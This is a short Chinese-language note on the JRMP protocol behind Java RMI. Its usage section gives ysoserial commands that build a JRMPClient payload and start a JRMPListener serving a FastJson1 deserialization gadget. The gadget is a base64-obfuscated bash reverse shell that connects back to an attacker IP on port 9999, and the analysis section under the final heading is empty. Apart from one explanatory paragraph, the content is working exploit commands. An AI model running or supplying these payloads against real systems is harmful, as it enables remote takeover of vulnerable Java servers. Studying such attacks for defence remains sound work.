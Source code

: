 # JRMP总结

## 1.JRMP

JRMP是Java远程方法协议，该协议基于TCP/IP之上，RMI协议之下，使用RMI协议的时传递的底层使用的JRMP，JRMP协议底层是基于TCP/IP。

RMI默认使用的JRMP进行传递数据，并且JRMP协议只能作用于RMI协议，当然RMI支持的协议除了JRMP还有IIOP协议，而在Weblogic里面的T3协议其实也是基于RMI进行实现的。



## 2.使用方式

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient "192.168.50.193:8888" | base64
```







```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8888 FastJson1 "bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguNTAuMTkzLzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}"
```

## 3.原理分析

